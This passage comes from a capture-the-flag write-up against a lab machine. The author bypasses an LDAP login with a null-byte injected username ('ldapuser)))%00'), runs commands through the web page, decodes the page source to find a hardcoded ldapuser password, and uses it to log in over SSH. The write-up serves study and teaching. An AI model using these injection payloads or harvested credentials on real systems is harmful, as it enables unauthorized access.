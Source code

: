 On submitting the username `ldapuser)))%00`, `curl` returns a redirect. I’ll try it in Firefox, submitting `ldapuser%29%29%29%00` and the current OTP, and it logs in!

Even better, when I run a command, I get results. `id`:

![1549820880477](https://0xdfimages.gitlab.io/img/1549820880477.png)

Similarly, `ls -l` shows the current directory:

![1549901548104](https://0xdfimages.gitlab.io/img/1549901548104.png)

## Shells

I’ll use shells as two different users later in this box, so I’ll get them box now.

### Shell as ldapuser

To start looking around, I did `base64 page.php`, which gives me the source for the page:

![1549827753960](https://0xdfimages.gitlab.io/img/1549827753960.png)

After taking that text to my terminal and decoding it, I’ll notice towards the top it has the password for ldapuser:

```

root@kali# base64 -d page.php.b64 > page.php

```

```

<!doctype html>
<?php
session_start();
if (!isset ($_SESSION['username'])) header('Location: /');

$username1 = $_SESSION['username'];

$strErrorMsg="";
$cmdOutput=array();

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';
...[snip]...

```

That password works for ssh access:

```

root@kali# ssh ldapuser@10.10.10.122
ldapuser@10.10.10.122's password:
Last login: Mon Feb 11 02:33:41 2019 from 10.10.14.8
[ldapuser@ctf ~]$ id
uid=1000(ldapuser) gid=1000(ldapuser) groups=1000(ldapuser) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```
